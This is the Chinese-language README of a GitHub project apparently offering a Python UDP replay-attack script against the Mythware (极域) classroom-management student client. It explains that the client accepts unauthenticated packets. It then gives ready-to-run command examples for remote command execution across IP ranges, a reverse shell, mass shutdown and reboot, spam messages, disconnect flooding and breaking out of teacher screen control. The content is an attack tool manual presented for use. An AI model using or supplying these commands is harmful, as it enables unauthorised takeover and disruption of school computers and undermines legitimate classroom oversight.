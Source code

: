 
# 极域电子教室数据包(udp)重放攻击脚本
[![GitHub stars](https://img.shields.io/github/stars/ht0Ruial/Jiyu_udp_attack)](https://github.com/ht0Ruial/Jiyu_udp_attack/stargazers) [![GitHub forks](https://img.shields.io/github/forks/ht0Ruial/Jiyu_udp_attack)](https://github.com/ht0Ruial/Jiyu_udp_attack/network) [![GitHub release](https://img.shields.io/github/release/ht0Ruial/Jiyu_udp_attack.svg)](https://github.com/ht0Ruial/Jiyu_udp_attack/releases/latest)

## 原版请看作者https://github.com/ht0Ruial/Jiyu_udp_attack

+ 因为极域的学生端没有对接收到的udp包做(=・ω・=)身份验证，导致了我们可以构造特定的数据包让学生端来执行，从而实现命令执行攻击机房内上线的任意学生端机器。
## 运行环境
+ Python3

## 版本说明
v1.5
- 修复命令执行bug

v1.4
- 代码重构，优化参数选取逻辑
- 反弹shell功能增加随机端口
- 更新文档

v1.3
- 脱离/恢复屏幕控制
- 支持反弹shell

v1.2
- 修复bug

v1.1
- -g 选项支持获取学生端监听的端口

v1.0
- 首次提交




## 使用方法：
```
usage:

    ------------------- Github Repositories -------------------
            https://github.com/ht0Ruial/Jiyu_udp_attack

       [-h] -ip IP [-p P] [-msg MSG] [-c C] [-l L] [-t T]
       [-e {r,s,g,nc,break,continue,b,x}]
       {r,s,g,nc,break,continue,b,x} ...

positional arguments:
  {r,s,g,nc,break,continue}
                        -e 参数的详细说明
    r                   reboot 重启
    s                   shutdown 关机
    g                   独立选项，获取当前的ip地址以及学生端监听的端口
    nc                  独立选项，反弹shell的机器需出网，退出可使用命令exit
    break               独立选项，脱离屏幕控制，需要管理员权限
    continue            独立选项，恢复屏幕控制
    b                   在学生端连接上教师端之前，短时间内大量使用此方法可以实现学生端连不上教师端 eg: -b -l 1000 -t 5
    x                   用于自定义发送命令，万一 -c 参数发送的命令的报文格式与所用环境不适配，可以抓包自行修改包中的命令

optional arguments:
  -h, --help            show this help message and exit
  -ip IP                ip 指定目标IP地址
  -p P                  port 指定监听端口，默认端口为4705
  -msg MSG              send_message发送消息 eg: -msg "HelloWord!"
  -c C                  command命令 eg: -c "cmd.exe /c ipconfig"
  -l L                  循环次数，默认为1
  -t T                  循环时间间隔，默认是22秒
  -e {r,s,g,nc,break,continue,b,x}
                        Extra Options加载额外的选项 eg：-e r
          
```

## 使用例子

### Tips:
使用 **-ip** 参数指定目标IP时，可以有以下几种指定方式：
- 指定单个IP，如  192.168.80.12
- 指定IP范围，如 192.168.80.10-56
- 指定IP所在C段，如 192.168.80.1/24



### 1.获取内网ip地址及监听的端口
若学生端监听端口不是默认的**4705**，则在后续操作过程中需使用 **-p** 参数指定端口
```
python Jiyu_udp_attack.py -e g
```

### 2.脱离屏幕控制
当前运行权限需为管理员权限，主要用于开启MpsSvc服务
```
python Jiyu_udp_attack.py -e break
```

### 3.恢复屏幕控制
```
python Jiyu_udp_attack.py -e continue
```

### 4.发送消息
若学生端监听端口为**4705**，向IP地址为192.168.80.12的机器发送一条内容为"hello,baby!"的消息
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -msg "hello,baby!"

```

若学生端监听端口为**4605**，需使用 **-p** 参数指定端口，向IP地址为192.168.80.12的机器发送一条内容为"hello,baby!"的消息
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -p 4605 -msg "hello,baby!"

```

### 5.执行命令
给192.168.80.12到192.168.80.137弹一个计算器
```
python Jiyu_udp_attack.py -ip 192.168.80.12-137 -c calc.exe
```

### 6.反弹shell
反弹shell时，IP只能为某个机器IP，不能批量反弹，而且机器需要出网<br>
因为已经实现批量的任意命令执行，考虑到批量反弹也没啥意义，遂不添加
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -e nc
```

### 7.关机重启
关机
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -e s
```
重启
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -e r
```

### 8.循环
利用循环持续发送消息<br>
1-254的机器会收到一条"hello,baby!"的消息，50s后会继续执行，共执行3次
```
    python Jiyu_udp_attack.py -ip 192.168.80.23/24 -msg "hello,baby!" -l 3 -t 50
```

### 9.断连
短时间内高频次发包，无需指定ip<br>
此处无需参数-ip，发送的是udp包
```
    python Jiyu_udp_attack.py -e b -l 10000 -t 5

```




